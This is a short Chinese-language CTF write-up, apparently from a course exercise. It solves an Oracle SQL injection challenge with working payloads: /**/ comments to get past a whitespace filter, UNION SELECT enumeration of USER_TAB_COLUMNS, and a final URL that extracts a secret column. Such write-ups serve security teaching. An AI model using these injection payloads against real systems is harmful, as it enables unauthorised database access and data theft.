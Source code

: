 發現他有擋 空白 和 `;`，嘗試用 `/**/` 繞過空白。
首先利用 `/**/ORDER/**/BY/**/3` 發現他有 3 個 column，但利用 `/**/UNION/**/SELECT/**/NULL,NULL,NULL` 會產生錯誤。
跑去找 kaibro 的 WEB CTF CheatSheet 發現 Oracle 的 SELECT 語句必須包含 FROM，可用dual，最後發現是用 Oracle sql。

由於 Oracle 可以用 `||` 去連接字串，因此可以透過
`(-1)/**/UNION/**/SELECT/**/NULL,TABLE_NAME||1||COLUMN_NAME,NULL/**/FROM/**/USER_TAB_COLUMNS`
去取得 table 和 column 名字。

由於 Oracle 沒有 `limit` 語法，因此我透過 `ROWNUM` 和 `MINUS` 取代，並去寫一個 python 腳本去爆開

最後有發現幾個有趣的名字
```
22
S3CRET ID
23
S3CRET V3RY_S3CRET_C0LUMN
```
最後去解開
`https://edu-ctf.csie.org:10159/video.php?vid=(-1)/**/UNION/**/SELECT/**/NULL,V3RY_S3CRET_C0LUMN,NULL/**/FROM/**/S3CRET`
注意 ： 由於 css 會把字母全部變大寫，直接開 f12

